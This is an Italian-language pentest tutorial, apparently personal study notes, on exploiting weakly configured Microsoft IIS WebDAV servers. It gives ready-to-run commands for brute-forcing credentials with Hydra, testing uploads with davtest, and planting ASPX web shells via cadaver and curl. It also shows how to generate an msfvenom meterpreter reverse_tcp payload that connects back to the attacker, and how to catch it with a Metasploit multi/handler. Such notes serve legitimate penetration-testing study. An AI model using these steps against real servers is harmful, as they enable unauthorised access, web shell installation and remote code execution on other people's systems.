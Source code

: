 # Microsoft IIS WebDAV – Introduzione e Exploit
**WebDAV (Web Distributed Authoring and Versioning)** è un protocollo composto da un set di estensioni HTTP che consentono agli utenti di modificare e gestire in modo collaborativo i file su Microsoft IIS. <br>
Microsoft IIS è un server web proprietario sviluppato da Microsoft, in grado di ospitare applicazioni web e siti web, in modo simile ad altri server come Apache o Nginx <br>
WebDAV espone in genere la stessa porta del sito (80/443) e supporta metodi aggiuntivi come `PROPFIND`, `MKCOL`, `PUT`. <br>

Una configurazione debole (per‑mancanza di ACL o controllo sul metodo **PUT**) consente a un attaccante di **caricare ed eseguire file arbitrari**, ottenendo RCE.

---

## Brute‑force credenziali (opzionale)

Una volta confermata la presenza del servizio e un mancato controllo del metodo PUT durante laprecedente fase di Scansione ed Enumerazione, possiamo tentare di scoprire le credenziali di accesso usando Hydra: <br>
```bash
hydra -L /usr/share/wordlists/common_users.txt -P /usr/share/wordlists/common_passwords.txt -s 80 -f -u <IP> http-get /webdav
```

* `-L` / `-P` puntano ai file utenti / password. <br>
* `-s 80` specifica la porta. <br>
* `-f` interrompe alla prima coppia valida. <br>
* `-u` mantiene la stessa connessione. <br>

Se il server usa HTTPS, sostituisci `http-get` con `https-get` e porta 443: <br>
Se invece vuoi effettuare un login standard basta mettere `/` al posto di `/webdav` per autenticarti
> ovviamente puoi mettere qualsiasi altra directory che richiede autenticazione dopo `/`

---

## Verifica upload con credenziali

dopo aver scoperto le credenziali di accesso, analizziamoi il comportamento usando davtest:
```bash
davtest -auth <user>:<pass> -url http://<IP>/webdav`
```

Se `PUT` va a buon fine, verrà indicato “SUCCESS” per l’estensione caricata.

---

## 4 – Upload di una Web‑Shell con **cadaver**
Se il metodo PUT funziona, possiamo caricare una webshell usando `cadaver`
```bash
cadaver http://<IP>/webdav` # client WebDAV interattivo.
put C:\\webshell\\cmd.aspx` # carica la web‑shell ASPX.
```

Tutte le web shells disponibili su kali sono visualizzabili al path 
```bash
/usr/share/webshells
```

Dopo aver caricato una webshell, ricaricando la pagina del browser dov’era aperta la pagina di WebDAV, possiamo visualizzare la shell caricata quindi, cliccando su di essa per eseguirla, potremmo avere una schermata con la possibilità di inserire dei comandi

---

## 5 – Upload via curl e put
possiamo anche caricare la shell usando curl:
```bash
curl -T shell.aspx http://<user>:<pass>@<IP>/webdav/shell.aspx` # carica shell ASPX
```

e tramite il metodo put:
```bash
put </usr/share/webshells/webshell.aspx>
```

---

## 6 – Generazione Payload con **msfvenom**
é possibile generare una shell usando msfvenom: 

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<KaliIP> LPORT=<Port> -f aspx > shell.aspx
```

Carica `shell.aspx` via `cadaver` o `curl`; una volta richiamato, avrai la sessione Meterpreter.

---

## 7 – Listener Metasploit
Per poter ricevere una connessione reverse shell, si usa il `multi/handler` di Metasploit
```bash
use multi/handler # modulo listener generico
set payload windows/meterpreter/reverse_tcp # definisce il payload
set LHOST <KaliIP> # IP della macchina Kali
set LPORT <Port> # porta configurata nel payload
run # avvia il listener in attesa della connessione
```

e successivamente eseguiamo la shell caricata sul target con `cadaver` o `curl`

Queso processo é totalmente automatizzabile usando il modulo
```bash
exploit/windows/iis/iis_webdav_upload_asp
```

---
